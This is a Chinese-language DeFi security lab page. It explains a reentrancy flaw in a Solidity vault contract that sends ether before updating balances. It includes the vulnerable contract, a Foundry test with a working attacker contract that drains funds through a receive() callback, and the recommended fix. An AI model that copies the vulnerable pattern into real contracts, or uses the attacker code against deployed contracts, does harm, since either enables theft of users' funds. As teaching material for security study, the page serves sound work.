

# 可重入性
[Reentrancy.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Reentrancy.sol)  
**名称：** 可重入性漏洞  
**描述：**  
在EtherStore智能合约设计中有一个可重入性漏洞的缺陷，这会允许攻击者利用重入性从EtherStore合约中提取超过其应提取的资金。  
该漏洞的出现是由于EtherStore合约中的withdrawFunds函数，在更新攻击者余额之前，以太币就被转移到攻击者地址了。  
这允许攻击者的合约在更新余额之前，对withdrawFunds函数进行可重入性回调，从而进行多次提款并且有可能取走EtherStore合约中的所有以太币。  
**场景：**  
EtherStore 合约是一个简单的金库，它管理每个人的以太币。  
但是它有漏洞，你能偷走所有的以太币吗？  


**修复建议：**  
遵守“检查-效果-交互”的编程范式和使用OpenZepplin的重入保护。  


**参考：**  
https://slowmist.medium.com/introduction-to-smart-contract-vulnerabilities-reentrancy-attack-2893ec8390a  

https://consensys.github.io/smart-contract-best-practices/attacks/reentrancy/  


**EtherStore合约：**  
```
contract EtherStore {
    mapping(address => uint256) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdrawFunds(uint256 _weiToWithdraw) public {
        require(balances[msg.sender] >= _weiToWithdraw);
        (bool send, ) = msg.sender.call{value: _weiToWithdraw}("");
        require(send, "send failed");

        // 取款后，检查是否有足够的余额以防止下溢
        //check if after send still enough to avoid underflow
        if (balances[msg.sender] >= _weiToWithdraw) {
            balances[msg.sender] -= _weiToWithdraw;
        }
    }
}
```

**如何测试：**  

forge test --contracts src/test/Reentrancy.sol-vvvv  
```
// 测试 EtherStore合约可重入攻击漏洞的函数 
function testReentrancy() public {
    // 执行攻击合约的Attack函数
    attack.Attack();
}

// 攻击EtherStore合约的合约
contract EtherStoreAttack is Test {
    // 待攻击的EtherStore合约实例
    EtherStore store;

    // 初始化EtherStore合约
    constructor(address _store) {
        store = EtherStore(_store);
    }

    // 执行攻击的函数
    function Attack() public {
        // 记录EtherStore的余额
        console.log("EtherStore balance", address(store).balance);

        // 向EtherStore合约存入1个以太币
        store.deposit{value: 1 ether}();

        // 记录EtherStore合约新余额
        console.log(
            "Deposited 1 Ether, EtherStore balance",
            address(store).balance
        );
        //从EtherStore合约取走1个以太币, 这就是可以攻击的地方
        store.withdrawFunds(1 ether); 

        // 记录攻击合约的余额
        console.log("Attack contract balance", address(this).balance);
        //记录EtherStore合约取款后的余额
        console.log("EtherStore balance", address(store).balance);
    }

    // 利用可重入漏洞的回退函数
    receive() external payable {
        // 记录攻击合约的余额
        console.log("Attack contract balance", address(this).balance);
        // 记录EtherStore合约的余额
        console.log("EtherStore balance", address(store).balance);
        // 判断EtherStore合约余额是否至少有1个以太币
        if (address(store).balance >= 1 ether) {
            // 取走1个以太币，这就是在回退函数中利用到的
            store.withdrawFunds(1 ether); 
        }
    }
}
```
**红色框：**  攻击成功，取完了EtherStore合约中的以太币。


